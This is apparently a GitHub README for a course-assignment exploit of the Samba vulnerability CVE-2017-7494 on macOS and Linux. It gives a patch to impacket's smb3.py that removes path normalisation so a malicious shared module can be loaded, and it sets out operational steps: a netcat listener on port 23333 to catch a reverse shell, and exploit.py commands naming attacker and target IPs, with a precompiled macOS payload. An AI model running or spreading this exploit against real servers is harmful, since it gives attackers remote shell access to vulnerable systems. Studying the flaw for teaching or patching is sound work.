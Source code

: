 # BIT-EternalBlue-for-macOS&Linux
Exploit CVE-2017-7494 for Net Security course final Assignment. This would reveal the vulnerability of services that run in administrative priority on OS.

This bug is workable on both macOS and Linux.

## Install

Before exploit, you need to download dependencies.

```shell
/bin/bash install_requirement.sh
```

One of the most important dependencies is the `impacket` package for python. It make smb connection works.

However, in order to construct a valid request that make the samba server load our malicious module, we have to modify the original impacket.

The installation `install_requirement.sh` installs a modified version (modified by me) so **you do not have to worry about that and you are not need to do any manual modification**.

However, if you want to use some newer version or another version of `impacket`, you have to modify that package by yourself.

> Goto `impacket/impacket/smb3.py` modify line 11154 and comment following two sentences:

```python
#         fileName = fileName.replace('/', '\\') Should be comment!
        if len(fileName) > 0:
#             fileName = ntpath.normpath(fileName) Should be comment!
            if fileName[0] == '\\':
                fileName = fileName[1:]
```

## How to use

To exploit target, you need open two terminals. One use `netcat` to interact with the reverse shell, the other is used to exploit the BUG.

Usage:

```shell
#First terminal use nc to get reverse shell
$ nc -p 23333 -l

# Second terminal to exploit target
$ python3 ./exploit.py -lhost 192.168.71.136 --rhost 192.168.71.135
```
If the target is macOS, you **should not to** compile the module on Linux! As gcc do not support MACH-O format. If you are a mac user, macOS payload compilation works.

A precompiled version is in the directory. The `mac_payload.so`.

Use `-m` flag to make `exploit.py` know you will use a customized payload.


```shell
python3 ./exploit.py -lhost 192.168.71.136 --rhost 192.168.71.135 -m mac_payload.so
```

## Uninstall

```shell
sudo -H python3 -m pip uninstall impacket
```

## Todo:
- [ ] macOS Samba installation guide.

A detailed process would be post in Chinese as my final assignment. If you understand Chinese, it would be fine for you. :)
